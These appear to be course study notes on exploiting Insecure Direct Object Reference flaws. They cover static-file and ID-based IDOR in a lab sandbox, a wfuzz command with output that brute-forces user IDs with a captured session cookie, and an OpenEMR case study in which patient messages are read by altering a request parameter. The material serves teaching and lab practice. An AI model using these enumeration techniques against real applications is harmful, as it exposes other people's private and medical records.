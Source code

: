 # Module 15: Insecure Direct Object Referencing

## Introduction to IDOR

### Static File IDOR

<figure><img src="../../../.gitbook/assets/36dc5e7425582420ec799d7bbc850b84-idor_f_landing.png" alt=""><figcaption><p>Static File IDOR Landing Page</p></figcaption></figure>

_Sample routing_

```uri
/users/:userIdent/documents/:pdfFile
/trains/:from-:to
/book/:year-:author
```

_Routed URI Examples_

```uri
/users/18293017/documents/file-15 (PDF Retrieved)
/trains/LVIV-ODESSA               (Ticket File Retrieved)
/book/1996-GeorgeRRMartin         (Book Retrieved)
```

### Database Object Referencing (ID-Based) IDOR

_Example IDOR for a Database Object_

```uri
http://idor-sandbox:80/customerPage/?custId=1
```

## Exploiting IDOR in the Sandbox

### Accessing the IDOR Sandbox Application

_Start the VPN, the VM, and add its IP and hostname to your hosts file._

### Exploiting Static File IDOR

<figure><img src="../../../.gitbook/assets/d0063360d17b2f8871a180a21af6a7d6-idor_sandbox_fileBased_01.png" alt=""><figcaption><p>Click "File-Based IDOR"</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/efc0809121d2f01e6c43512af7fd878c-idor_sandbox_fileBased_02.png" alt=""><figcaption><p>File-Based IDOR URI</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/7e0731fba4b01f63939c9324c9efb12c-idor_sandbox_fileBased_03.png" alt=""><figcaption><p>Contents of the file</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/7a092e4d0d80fe3fead18b3d403746f6-idor_sandbox_fileBased_04.png" alt=""><figcaption><p>Setting ?f=2.txt</p></figcaption></figure>

### Exploiting ID-Based IDOR

<figure><img src="../../../.gitbook/assets/d7555dcc4f8d42ecb39d34c22c345d31-idor_id_based_01.png" alt=""><figcaption><p>ID-Based IDOR</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/3c3ddc006b14e93def60951e18863652-idor_id_based_02.png" alt=""><figcaption><p>The /customerPage/?custId= URI</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/4f893666a8128c25bff36c93a60c1c69-idor_id_based_03.png" alt=""><figcaption><p>The Rendered Content</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/99f53b6c4e19a1244e8b253407317cfd-idor_id_based_04.png" alt=""><figcaption><p>Incrementing the custId Database Parameter by one</p></figcaption></figure>

{% hint style="info" %}
Because we retrieved information through the web browser for a separate user entirely that corresponds with a Customer ID value of "2", we can guess this was the second registered user for the web application.
{% endhint %}

### Exploiting More Complex IDOR

<figure><img src="../../../.gitbook/assets/55ab1c8f01aaf534d3858f3dc7a0b7cd-idor_userexp_login_01.png" alt=""><figcaption><p>Logging in as User Harb</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/6a31e19826228bb2c61917cf07e430a1-idor_sandbox_harb.png" alt=""><figcaption><p>Harb's Data</p></figcaption></figure>

_Gathering Erroneous Response Sizes_

```bash
kali@kali:~$ curl -s http://idor-sandbox:80/user/?uid=62718 -w '%{size_download}'
0
```

We got 0 because we didn't include a valid session ID.

<figure><img src="../../../.gitbook/assets/1cfefbe10d3283544b9bf249e2432f89-idor_userexp_burp_01.png" alt=""><figcaption><p>Gathering a valid session ID</p></figcaption></figure>

_Gathering Erroneous Response Sizes with a Session ID_

{% code overflow="wrap" %}
```bash
kali@kali:~$ curl -s /dev/null http://idor-sandbox:80/user/?uid=91191 -w '%{size_download}' --header "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64"
...
2873
```
{% endcode %}

_Fuzzing 100,000 possible UIDs_

{% code overflow="wrap" %}
```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --hc 404 --hh 2873 -H "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64" http://idor-sandbox:80/user/?uid=FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://idor-sandbox:80/user/?uid=FUZZ
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000011112:   200        76 L     174 W      2859 Ch     "11111"
000016328:   200        76 L     174 W      2860 Ch     "16327"
000023102:   200        76 L     174 W      2874 Ch     "23101"
000039202:   200        76 L     174 W      2867 Ch     "39201"
000041913:   200        76 L     174 W      2861 Ch     "41912"
000057192:   200        76 L     174 W      2863 Ch     "57191"
000062719:   200        76 L     174 W      2871 Ch     "62718"
000074833:   200        76 L     175 W      2868 Ch     "74832"
000083272:   200        76 L     174 W      2858 Ch     "83271"
000099181:   200        76 L     174 W      2866 Ch     "99180"

Total time: 755.6711
Processed Requests: 100000
Filtered Requests: 99990
Requests/sec.: 132.3327
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/0e7c847870ff31d65d1ba3de6205eec4-user_uid_authenticated_exfil.png" alt=""><figcaption><p>Exfiltrated Data</p></figcaption></figure>

### Extra Miles

_Do the labs._

## Case Study: OpenEMR

### Accessing The OpenEMR Case Study

_Start the VPN, the VM, and add the IP/hostname to your hosts file._

### Discovery of the IDOR Vulnerability

<figure><img src="../../../.gitbook/assets/2cca5f03a25f95d282eb4cd43e32f04e-idor_casestudy_landing.png" alt=""><figcaption><p>OpenEMR Landing Page</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/dfe89f7c9359bea8dd0c2c4da134d6fc-idor_casestudy_login.png" alt=""><figcaption><p>Login form</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/cba22d4064d0a84b8bb97ae899523cb6-idor_casestudy_dashboard.png" alt=""><figcaption><p>Dashboard Panel for OpenEMR</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/20eafc65b8ba90a53865f71c9da11f6a-idor_casestudy_messages_tab_01.png" alt=""><figcaption><p>Message Center - Tab</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/40f4f2d92bcadee5a6a0270ab2f994be-idor_casestudy_messages_tab_02.png" alt=""><figcaption><p>Message Center - Tab Content</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/c50944f5260476a378f081b09b111d42-idor_casestudy_messages_patient_01.png" alt=""><figcaption><p>Individual Patient Messages</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/50766d6d2718704932e67f938724d32e-idor_casestudy_burp_intercept_on.png" alt=""><figcaption><p>Turning on Burp Suite's Intercept Feature</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/033fce8a16b1d53dc2b1465e5c181c37-idor_casestudy_messages_patient_02.png" alt=""><figcaption><p>Clicking Print message</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/20dba4cb6d4eed4a73ce9d7186c91071-idor_casestudy_messages_patient_03.png" alt=""><figcaption><p>Intercepted Request in Burp Suite</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/b38943e58ecdbd1e287ab00307e6d940-idor_casestudy_repeater_01.png" alt=""><figcaption><p>Request in Repeater</p></figcaption></figure>

### Exploiting the IDOR Vulnerability

<figure><img src="../../../.gitbook/assets/2ee6d639bcec5128e7c53a6bc1f37362-idor_casestudy_exp_01.png" alt=""><figcaption><p>Exfiltrated Data for Parameter Value of 11</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/081edff03463438cf67d3448925e4c32-idor_casestudy_exp_02.png" alt=""><figcaption><p>Trying again with a value of 10</p></figcaption></figure>

### Extra Mile

_Do the lab._

